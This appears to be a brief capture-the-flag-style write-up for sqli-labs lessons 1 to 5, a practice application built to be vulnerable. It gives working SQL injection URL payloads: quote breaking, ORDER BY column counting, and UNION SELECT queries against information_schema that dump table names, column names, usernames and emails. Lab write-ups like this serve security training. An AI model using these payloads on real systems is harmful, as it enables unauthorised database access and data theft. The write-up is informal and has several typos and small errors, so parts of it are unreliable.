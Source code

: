 __sqli-labs lesson ```1-5```__

__desc__

 In this challenge we have to dump all the details from the database 

 
 __solution__
  first we have to pass the __```id```__ parameter and pass a numeric value,the we have to fuzz through 
  the id paramete and find the sqli
  when we pass ```'``` we can break the qurey and by adding ```--+``` after we can complete the query
  the we can find the number of table using ```order by``` up to some number
  * ```/?id=-1%27%20order by ```
  we can find the name of tables using:
  
 * ```/?id=-1%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+```
  we can find the column of each table:
  
 * ```/Less-2/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27uagents%27--+```
 we can find the data of each column of the table by:
 
 *```Less-2/?id=%27-1%27%20union%20select%201,group_concat(username),3%20from%20users--+```
we can find the data of column of the table by:

*```Less-3/?id=l%27)union%20select%201,group_concat(id),group_concat(email_id)%20from%20emails--+```

```/Less-4/?id=1")--+```
